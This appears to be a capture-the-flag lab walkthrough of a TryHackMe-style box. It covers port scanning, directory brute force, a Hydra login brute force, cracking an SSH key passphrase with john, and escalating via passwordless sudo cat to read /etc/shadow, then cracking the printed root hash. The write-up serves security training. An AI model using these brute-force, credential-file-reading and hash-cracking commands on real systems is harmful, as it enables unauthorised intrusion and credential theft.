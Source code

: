 ## Target IP: 10.10.61.20

---

### Environment Variables

```bash
export IP=10.10.61.20
export LIP=10.6.24.56
```

---

### Nmap Scan

```bash
sudo nmap -sC -sV -T4 -O $IP -oN nmap_scan.txt
```

**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 22 | SSH | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80 | HTTP | Apache httpd 2.4.29 (Ubuntu) |

---

### Web Enumeration

Visited: `http://$IP`

→ Apache default page

---

### Directory Brute Force

```bash
gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt
```

**Discovered:**

- /.hta (403)
- /.htpasswd (403)
- /.htaccess (403)
- /admin → Login page
- /index.html
- /server-status (403)

---

### Admin Panel

Visited: `/admin`

→ Login form

**Source code hint:**

```html
<!-- Hey john, if you do not remember, the username is admin -->
```

Tried default creds → failed

→ Used **Hydra** to brute-force

---

### Hydra Brute Force

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid"
```

→ **Password found: `[REDACTED]`**

---

### Logged In

Login page now displays:

```
Hello john, finish the development of the site, here's your RSA private key.
```

And reveals **Flag 1:**

```
THM{[REDACTED]}
```

---

### Private Key Crack

Copied key into `rsa_key.txt`

Converted for John:

```bash
ssh2john rsa_key.txt > rsa_id.hash
john rsa_id.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

→ **Passphrase: `[REDACTED]`**

---

### SSH Login

```bash
ssh -i rsa_key john@$IP
# Passphrase: [REDACTED]
```

---

### User Flag

```bash
cat user.txt
# → THM{[REDACTED]}
```

---

### Privilege Escalation

```bash
sudo -l
# → Can run /bin/cat as sudo without password

```

```bash
sudo cat /etc/shadow
```

Grabbed root hash:

```
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
```

Saved it to `hashes` file.

Crack it:

**Hashcat:**

```bash
hashcat -m 1800 -a 0 hashes /usr/share/wordlists/rockyou.txt
```

**John (used):**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt hashes
```

→ **Password: `[REDACTED]`**

---

### Root Access

```bash
su root
# Password: [REDACTED]
```

---

### Root Flag

```bash
cd /root
cat root.txt
```
